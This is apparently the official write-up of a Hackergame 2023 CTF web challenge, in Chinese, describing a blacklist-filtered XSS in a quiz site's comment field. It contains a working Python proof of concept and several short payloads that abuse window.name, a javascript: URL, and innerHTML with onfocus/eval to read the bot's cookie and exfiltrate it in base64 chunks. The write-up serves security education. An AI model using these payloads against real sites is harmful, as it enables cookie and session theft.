

# 微积分计算小练习 2.0

题解作者：[taoky](https://github.com/taoky)

出题人、验题人、文案设计等：见 [Hackergame 2023 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：web

- 题目分值：250

今年，小 X 第二次成为某门符号计算课程的助教。在去年，自己前后端分割（等等，是分割吗？还是分叉？切割？）的[微积分计算小练习网站被一群参加了什么信息什么大赛的同学 XSS 得落花流水](https://github.com/USTC-Hackergame/hackergame2022-writeups/blob/master/official/%E5%BE%AE%E7%A7%AF%E5%88%86%E8%AE%A1%E7%AE%97%E5%B0%8F%E7%BB%83%E4%B9%A0/README.md)之后，小 X 认真总结了经验教训：

1. 出的题目不够难，甚至有人不用符号计算软件就能完成。如果题目足够难，那么就能让一部分人看到微积分计算式就困，然后关闭浏览器，从而减小被 XSS 的概率；
2. 自己太过信任来做题的同学们，结果往用户名和分数里面放啥的都有，然后前端把这些信息直接塞到页面里，导致了 XSS；
3. 手动复制练习成绩并提交这件事情，也颇受同学们的差评。好像据说前后端离心（算了不管是啥了）不是这么玩的。

于是今年，依旧，为了让大家熟悉符号计算软件的使用，他写了一个小网站：上面放着五道也许没那么简单的题目，只要输入题目答案，提交后就可以看到自己的分数。但是作为 2.0 版本，小 X 解决了一些已知问题，更新了若干功能：

1. 题目更难，很难手算答对；
2. 支持做完题目之后给小 X 留言，感谢您宝贵的时间——对了，小 X 特地添加了字符黑名单——毕竟正常人怎么可能起 `` 这种名字嘛！留言的长度也做了限制，这样就算能 XSS，也只能弹个框，大概没啥实际危害吧。
3. 不再需要手动提交成绩，而且小 X 决定，在这个什么比赛结束之前，他绝对不会再去打开留言页面了——只要不去看，就不会被 XSS（大概）！但是小 X 在网上冲浪的时候，还是会忍不住看其他同学写的网页——不过应该不会出问题吧，至少小 X 本人是这么想的。

[点击此链接访问练习网站](http://202.38.93.111:10051/?token={token})

下面的 bot 模拟了这样一个过程：你可以提交一段 HTML 代码，bot 会在本地启动一个 HTTP 服务器，然后 bot 会访问上面的练习网站，登录后在 cookie 中加入 JavaScript 可以访问到的**经过 URL encode 之后的 flag**，然后访问你的站点。Bot 不会输出任何网页内容。

[点击此链接与 bot 交互](http://202.38.93.111:10052/?token={token})

为方便起见，上面的 bot 也可以通过 `nc 202.38.93.111 10053` 来连接。

> 如果你不知道 `nc` 是什么，或者在使用上面的命令时遇到了困难，可以参考我们编写的 [萌新入门手册：如何使用 nc/ncat？](https://lug.ustc.edu.cn/planet/2019/09/how-to-use-nc/)

点击下方的「打开/下载题目」按钮，查看程序源代码。

提示：

0. 完成本题不需要了解任何微积分与符号计算的知识；
1. 查看去年「微积分计算小练习」一题的题解（本题题面的第一个链接），可能会对了解什么是 XSS 有所帮助；
2. **题目环境不与互联网连接**；
3. 目前主流的浏览器都不允许随意弹出窗口（popup），但是小 X 是一个很好说话的人，随便找个理由他就会允许你弹窗了；而这里这个 bot 甚至不需要理由，就会来查看你的弹窗（如果有）；
4. flag 可能会有点长。

<p><b style="color: red;">补充说明 1：根据题目附件所提供源码，cookie 中的 flag 被 Python 的 <a href="https://docs.python.org/3/library/urllib.parse.html#urllib.parse.quote_plus">urllib.parse.quote_plus</a> 函数变换过。取决于解题方式，选手最终得到的 flag 可能还会被其他方法进一步编码，请注意正确解码。</b></p>

**[打开/下载题目](files/calculus_quiz_bot.py)**

## （出题时的预期）题解

Idea 是 @zzh1996 看了一个推：<https://twitter.com/avlidienbrunn/status/1697869590569582932>，然后交给我来实现这道题。

有条件的话也可以参考 [LiveOverflow 的视频（YouTube）](https://www.youtube.com/watch?v=3zShGLEqDn8)。

首先这道题的限制是：

- 没有互联网连接，受害人只能访问一个没有访问日志的静态网站；
- 弹窗等 exception 的内容不会提供给攻击者；
- 唯一一个 XSS 注入点：留言，有相对严格的长度限制与黑名单，但是可以用 `"` 来逃出字符串。

不过也给了提示：

- Bot 会允许任意弹窗。

弹窗对应的 JavaScript 代码是：

```js
window.open(url, target, windowFeatures)
```

其中第二个参数 `target` 会设置新的窗口的 `window.name`。我们可以来试一下：

```html
<script>window.open("https://www.example.com", "test")</script>
```

保存成 HTML 文件，然后打开（也可以 `python -m http.server` 然后访问，对这个例子效果是一样的）。然后可以看到：



现代浏览器的默认行为是不允许弹窗。这里允许弹窗，那么就会新建一个标签页，可以在 console 里面看一下这个标签页的 `name`：

```
>> window.name
<- "test"
```

可以看到就是我们设置的 name。而如果是正常打开的网站，那么 `name` 就是空字符串。所以，我们可以让 bot 在跳转的同时，在 `name` 里面带上我们的信息，而这个信息要有多长就能有多长。

然后对于练习网站，正常情况下是这样：

```javascript
updateElement("#comment", "你留下的评论：114514");
```

但是如果有双引号，就会变成这样：

```javascript
updateElement("#comment", "你留下的评论：114"514");
```

所以如果评论内容是 `"+ 1 +"`，那么就是：

```javascript
updateElement("#comment", "你留下的评论："+ 1 +"");
```

如果不考虑长度限制，怎么执行任意 JavaScript 呢？可以这样：

```javascript
updateElement("#comment", "你留下的评论："+{1: 某种_js_payload}+"");
```

这里这个 object 的 key 是 1，value 就可以是我们想要的 JS 表达式了。但是因为字符集限制，没法轻松构造。但是如果用前面提到的 `name`，就会轻松很多：

```javascript
// Not working
updateElement("#comment", "你留下的评论："+{1: window.location=window.name}+"");
```

这样只要 `window.name` 以 `javascript:` 开头，就能执行我们想要的 JS 代码。但是 `.` 也被过滤了，怎么办？有一个有趣的事情是，`window.` 是可以被省略的，比如说 `alert(1)` 事实上是 `window.alert(1)`。所以最后是这样：

```javascript
updateElement("#comment", "你留下的评论："+{1: location=name}+"");
```

`"+{1: location=name}+"` 也满足了长度要求。只要在 `name` 里面放上把 cookie 当成评论提交的代码，就大功告成了——不过 flag 好像超过了 25 字符，而且 `%` 也被过滤了，所以需要多次提交，并且使用 base64 编码。

我的 PoC（PoC 后有更短解答）：

```python
import requests
from pwn import *
import base64
from urllib.parse import unquote_plus
context.log_level = "debug"

token = "1:MEUCIQCEJiCXisdA/oxfjHZYMe10yvtiJKDWQBHlFsEn2I5FcgIgFhac4IiXwHFzLYNdOrFhxzQe9LrA7A8AtZ6Fd24mxNI="
hostname = "localhost"

s = requests.Session()
s.get(f"http://{hostname}:10051/?token=" + token)
html = """<script>
var victim=window.open("http://web/result", 'javascript:fetch("/result", {"headers": {"Content-Type": "application/x-www-form-urlencoded",},"body": `comment=${btoa(document.cookie.substring(%start%, %end%))}`,"method": "POST",});')
</script>
EOF"""

# 先做题
s.post(f"http://{hostname}:10051", data={
    "q1": "1", "q2": "1", "q3": "1", "q4": "1", "q5": "1"
})

def post_payload():
    s.post(f"http://{hostname}:10051/result", data={"comment": '"+{a: location=name}+"'})

post_payload()

def bot(start, end):
    r = remote(hostname, 10053)
    r.recvuntil(b"token:")
    r.sendline(token)
    r.recvuntil("服务器提供这个文件。\n".encode())
    r.send(html.replace("%start%", str(start)).replace("%end%", str(end)).encode())
    r.sendline()

    # r.interactive()
    r.recvuntil("bye!\n")

bot(0, 18)


res = ""
# receive our data
def read_contents():
    r = s.get(f"http://{hostname}:10051/result")
    for i in r.text.split("\n"):
        if "你留下的评论" in i:
            text = i.split("：")[1].replace('");', "")
            print(text)
            x = base64.b64decode(text).decode()
            return x
res += read_contents()
post_payload()
bot(18, 36)
res += read_contents()
post_payload()
bot(36, 53)
res += read_contents()
post_payload()
bot(53, 71)
res += read_contents()
print(res)
print(unquote_plus(res))
```

（所以这是一道同时要用到 pwntools 和 requests 的 web 题）。

## 更短的解答

以下采用了 @xmcp 的解，在此表示感谢。

这道题的攻击面事实上比上面所描述的更大。因为 `updateElement()` 的实现是这样的：

```javascript
function updateElement(selector, html) {
    document.querySelector(selector).innerHTML = html;
}
```

是 `innerHTML` 而不是 `textContent`，因此也可以插入任意的 HTML（而不仅仅是任意执行 JS 代码）。

一个例子是：

```
\74a "+location+"\76
```

其中 `"\74"` 是 `"<"`，`"\76"` 是 `">"`，因此最后会变成：

```javascript
updateElement("#comment", "你留下的评论：\74a "+location+"\76");
```

反映到 HTML 里面就是 `<a （location 的内容）>`，浏览器解析后即：

```html
<a http:="" web="" result=""></a>
```

而 URL 可以这么写：

```
http://web/result?/href/autofocus/onfocus=xxx
```

于是会变成：

```html
<a http:="" web="" result?="" href="" autofocus="" onfocus="xxx"></a>
```

`onfocus` 里面就是任意的 JS 了，只有 URI 长度会限制（但是 payload 一般也不会那么长）。作为参考，@xmcp 的 payload 如下：

```html
<script>
location='http://web/result?/href/autofocus/onfocus=eval(decodeURIComponent(location.hash.substring(1)))//#fetch(...)
</script>
```

以上也可以换成  之类的。

结合以上所说的 `name`，甚至还有更简单的 payload：

```
"+name+"
```

然后 name 里面放 HTML 即可。
